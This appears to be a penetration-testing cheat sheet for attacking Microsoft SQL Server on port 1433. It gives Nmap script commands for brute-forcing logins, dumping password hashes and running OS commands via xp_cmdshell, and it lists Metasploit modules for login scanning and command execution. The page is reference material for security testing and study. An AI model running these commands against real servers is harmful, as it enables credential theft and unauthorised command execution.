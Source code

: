 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# 1433 - MSSQL

## Nmap Scripts

The example command for enumerating _<mark style="color:green;">Microsoft-SQL</mark>_ (MSSQL) with Nmap is here.

```bash
# Enum version/info mssql
sudo nmap -p1433 --script=ms-sql-info $IP

# Enum target/domain/netbios name
sudo nmap -p1433 --script=ms-sql-ntlm-info --script-args mssql.instance-port=1433 $IP

# Enum mssql for empty password
sudo nmap -p1433 --script=ms-sql-empty-password $IP

# Bruteforcing user/password
sudo nmap -p1433 --script=ms-sql-brute --script-args userdb=/wordlists/user.txt,passdb=/wordlists/password.txt $IP

# Query the login users with AUTHENTICATION
sudo nmap -p1433 --script=ms-sql-query --script-args mssql.username=admin,mssql.password=password123,ms-sql-query.query="SELECT * FROM master..syslogins" -oN output.txt $IP

# Query the sysusers with AUTHENTICATION
sudo nmap -p1433 --script=ms-sql-query --script-args mssql.username=admin,mssql.password=password123,ms-sql-query.query="SELECT * FROM master..sysusers" -oN output.txt $IP

# Dump hashes with AUTHENTICATION
sudo nmap -p1433 --script=ms-sql-dump-hashes --script-args mssql.username=admin,mssql.password=password123 $IP

# Execute command with AUTHENTICATION
sudo nmap -p1433 --script=ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password=password123,ms-sql-xp-cmdshell.cmd="ipconfig" $IP
```

## MSFconsole

is a framework that holds many exploits, backdoors, scanners, etc. This is also known as _<mark style="color:green;">Metasploit</mark>_, by default, it is installed on Kali Linux.

```bash
auxiliary/scanner/mssql/mssql_login
auxiliary/admin/mssql/mssql_enum
auxiliary/admin/mssql/mssql_enum_sql_logins
auxiliary/admin/mssql/mssql_exec
auxiliary/admin/mssql/mssql_enum_domains_accounts
```
